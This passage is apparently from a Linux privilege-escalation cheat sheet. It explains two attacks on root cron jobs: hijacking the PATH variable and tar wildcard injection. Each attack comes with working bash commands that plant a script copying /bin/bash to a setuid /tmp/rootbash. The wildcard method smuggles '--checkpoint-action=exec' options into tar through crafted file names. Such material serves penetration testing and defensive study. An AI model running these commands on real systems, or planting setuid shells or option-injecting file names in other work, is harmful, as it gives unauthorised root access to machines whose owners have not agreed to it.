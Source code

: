### PATH Variable Attack

Requirements:

- Cron job runs as root
- Cron job uses relative paths
- Write access to a directory in the PATH

Example of a vulnerable crontab:

```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Exploitation:

```bash
# Create malicious executable in writable PATH directory
echo '#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash' > /home/user/overwrite

# Make it executable 
chmod +x /home/user/overwrite

# Wait for cron job to execute, then run
/tmp/rootbash -p
```

### Wildcard Injection Attack

Requirements:

- Cron job runs as root
- Script uses wildcards (e.g., `tar czf /backup.tar.gz *`)

Example vulnerable script:

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

#### Exploitation Methods

**Method 1: Using tar checkpoint feature**

```bash
# Create payload script
echo '#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash' > /home/user/runme.sh
chmod +x /home/user/runme.sh

# Create checkpoint files
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh

# Wait for tar command to run with wildcard, then
/tmp/rootbash -p
```
